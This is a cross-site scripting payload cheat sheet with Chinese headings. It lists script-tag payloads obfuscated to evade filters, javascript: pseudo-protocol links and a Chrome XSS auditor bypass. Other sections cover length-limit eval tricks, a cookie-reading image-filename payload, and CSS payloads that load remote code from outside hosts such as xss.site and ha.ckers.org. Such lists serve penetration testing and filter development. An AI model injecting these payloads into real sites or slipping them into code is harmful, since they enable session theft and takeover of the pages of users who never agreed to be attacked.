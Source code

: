 - ``<script>alert(1)</script>``
- ``<script>confirm(1)</script>``
- ``<script>prompt(1)</script>``
- ``<script>alert('1')</script>``
- ``<script>alert("1")</script>``
- ``<script>alert`1`</script>``
- ``<script>(alert)(1)</script>``
- ``<script>a=alert,a(1)</script>``
- ``<script>[1].find(alert)</script>``
- ``<script>top["al"+"ert"](1)</script>``
- ``<script>top["a"+"l"+"e"+"r"+"t"](1)</script>``
- ``<script>top[/al/.source+/ert/.source](1)</script>``
- ``<script>top[/a/.source+/l/.source+/e/.source+/r/.source+/t/.source](1)</script>``

### 伪协议

- ``<a href=javascript:/0/,alert(%22M%22)>M</a>``
- ``<a href=javascript:/00/,alert(%22M%22)>M</a>``
- ``<a href=javascript:/000/,alert(%22M%22)>M</a>``
- ``<a href=javascript:/M/,alert(%22M%22)>M</a>``


### Chrome XSS auditor bypass

- ``?param=https://&param=@z.exeye.io/import%20rel=import%3E``
- ``<base href=javascript:/M/><a href=,alert(1)>M</a>``
- ``<base href=javascript:/M/><iframe src=,alert(1)></iframe>``

### 长度限制

    <script>s+="l"</script>
    \...
    <script>eval(s)</script>

### jquery sourceMappingURL

    ``</textarea><script>var a=1//@ sourceMappingURL=//xss.site</script>``

### 图片名

    ``"><img src=x onerror=alert(document.cookie)>.gif``

### 过期的payload

- src=javascript:alert基本不可以用
- css expression特性只在旧版本ie可用

### css

    <div style="background-image:url(javascript:alert(/xss/))">
    <STYLE>@import'http://ha.ckers.org/xss.css';</STYLE>

